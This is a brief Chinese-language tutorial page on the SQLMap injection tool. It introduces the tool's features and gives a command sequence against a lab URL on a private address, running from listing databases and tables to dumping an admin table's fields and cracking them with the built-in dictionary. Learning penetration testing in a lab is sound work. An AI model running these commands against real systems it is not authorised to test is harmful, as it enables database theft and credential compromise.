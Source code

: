 # SQLMap应用
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 简介
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;SQLmap是一个自动化的SQL注入工具，其主要功能是扫描，发现并利用给定的URL的SQL注入漏洞，目前支持的数据库是MySQL，Oracle，PostgreSQL，Microsoft  SQL  Server，Microsoft Acess，IBM DB2，SQLLite，Firebird，Sybase和SAP MaxDB……SQLmap采用几种独特的SQL注入技术，分别是盲推理SQL注入，UNION查询SQL注入，对查询和盲注。其广泛的功能和选项包括数据库指纹，枚举，数据库提取，访问目标文件系统，并在获取完全操作权限时实行任意命令
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 详解 
![](/assets/WX20190306-160348@2x.png)
![](/assets/WX20190306-161610@2x.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 流程 (目标注入地址尽量用双引号引起来)
![](/assets/AF1C4C8C3124CC854FBE3962B95BFA39.png)


```python
    URL = "http://172.16.12.2/inject.php?id=1"
    sqlmap.py -u "URL" --dbs         --dbs: 列举数据库
    sqlmap.py -u "URL" --current-db  --current-db: 当前数据库
    sqlmap.py -u "URL" -D dbname  --tables  dbname:指定数据库名称 --tables:列出某数据库上的所有表
    sqlmap.py -u "URL" -D dbname -T tablename --columns -D  --columns:列出指定表上的所有列
    sqlmap.py -u "URL" -D sqlinject  -T admin -C 字段 --dump --dump:导出列里面的字段
    然后回车默认通过字典来破解，选择1利用自带的字典暴力破解
```






 







